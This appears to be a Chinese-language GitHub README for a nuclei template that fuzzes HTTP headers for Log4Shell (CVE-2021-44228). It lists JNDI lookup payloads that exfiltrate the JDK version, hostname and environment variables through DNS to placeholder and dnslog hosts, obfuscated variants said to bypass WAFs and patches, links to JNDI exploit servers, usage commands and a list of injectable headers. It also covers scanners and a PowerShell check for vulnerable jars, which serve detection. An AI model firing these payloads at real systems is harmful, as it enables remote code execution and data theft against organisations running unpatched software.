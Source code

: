 
## 1. 更新

### 1.1 structs2版本
添加了structs2静态文件 If-Modified-Since 头利用方式。
参考：https://mp.weixin.qq.com/s/T-rcZnQxxUK1n2_lJNoUZg


### 1.2 structs2 利用变种
添加了structs2利用方式变种。
参考：https://attackerkb.com/topics/in9sPR2Bzt/cve-2021-44228-log4shell/rapid7-analysis


### 1.3 vCenter 利用
添加了vCenter利用
参考：https://attackerkb.com/topics/in9sPR2Bzt/cve-2021-44228-log4shell/rapid7-analysis


### 1.4 solr 利用
添加了Apache solr利用
参考：https://attackerkb.com/topics/in9sPR2Bzt/cve-2021-44228-log4shell/rapid7-analysis


## 2. 关于影响面
有一个新的站点发布了比此前相对更全内容.(包括各类设备与云设施等)
- [Finding applications that use Log4J](https://www.rumble.run/blog/finding-log4j/?fbclid=IwAR0XbJNZ7FjsgVFIk5rlmf002twAaW14SJfdBHFYswWbOzDxzj4YIFnJZPU#affected-products-and-services)

## 3. 关于其他扫描器
有一个新的扫描器挺火的，暂时没有时间验证
- [log4j-scan](https://github.com/fullhunt/log4j-scan)

portswigger 放出了官方的 burpsuite 被动扫描插件，官方的应该挺好用
- Log4Shell Scanner 可以在 plugin store 直接下载

## 4. 关于 log4j2 发现漏洞后的进一步利用

### 4.1 探测 jdk 版本等
```
${jndi:ldap://${env:JAVA_VERSION}.domain/a}
${jndi:ldap://${sys:java.version}.domain/a}
${jndi:ldap://${hostName}.domain/a}
${jndi:ldap://${sys:java.vendor}.domain/a}
```
![image-20211214113047711](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20211214113047711.png)

### 4.2 一次性探测完
```
${jndi:ldap://${sys:java.vendor}.@.${sys:java.version}.@.${hostName}.test.dnslog.cn/exp}
```
### 4.3 其他可探测的信息
![Image](https://pbs.twimg.com/media/FGT0Im-UcAIq7IA?format=png&name=small)
### 4.3 使用tomcat等可绕过高版本jdk限制的反序列化链
可以使用 
 - [veracode-research/rogue-jndi](https://github.com/veracode-research/rogue-jndi)
 - [welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)
 - [JNDIExploit](https://github.com/GreyDr34d/JNDIExploit)


## 5. 关于类似漏洞的挖掘 
### 5.1 挖掘其他可能存在 JndiLookup.class 的 jar 包
powershell 命令：
```powershell
gci 'C:\' -rec -force -include *.jar -ea 0 | foreach {select-string "JndiLookup.class" $_} | select -exp Path
```
powershell 脚本
[checkjndi.ps1](https://gist.github.com/wdormann/c609ae63a6ec8b58302b8cf377e0ef15)

python 脚本
[CVE-2021-44228-Scanner](https://github.com/logpresso/CVE-2021-44228-Scanner)

## 6. 其他组织的攻击活动
- [已有10个家族的恶意样本利用Log4j2漏洞传播](https://blog.netlab.360.com/yi-jing-you-xxxge-jia-zu-de-botnetli-yong-log4shelllou-dong-chuan-bo-wei-da-bu-ding-de-gan-jin-liao/)
# log4j1-fuzz-head-poc轻量级检测
针对 log4j来批量fuzzz 请求头检测，有效检测一些头部存在的安全风险，nuclei默认使用interactsh的dnslog

为什么用这种，这种方法也是从蜜罐中获取到攻击组织最常用的方法，简单，有效

### v2版本
添加了绕过rc1的poc
也同时能绕过常见主流waf拦截，还有高版本jdk绕过
```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```


# 使用
```
/nuclei -t log4j-fuzz-head-poc.yaml -u http://www.test.com  -o res.txt  -rl 10 单个检测  速率为10（速率不要太高）

/nuclei -t log4j-fuzz-head-poc.yaml -l urls.txt  -o res.txt   -rl 10   批量检测  速率为10（速率不要太高）
```

![image](https://user-images.githubusercontent.com/50769953/145665694-21632dd2-7336-474b-80ed-9cdba4919898.png)

* X-Client-IP
* X-Remote-IP
* X-Remote-Addr
* X-Forwarded-For
* X-Originating-IP
* User-Agent
* Referer
* CF-Connecting_IP
* True-Client-IP
* X-Forwarded-For
* Originating-IP
* X-Real-IP
* X-Client-IP
* Forwarded
* Client-IP
* Contact
* X-Wap-Profile
* X-Api-Version
* If-Modified-Since(structs2)

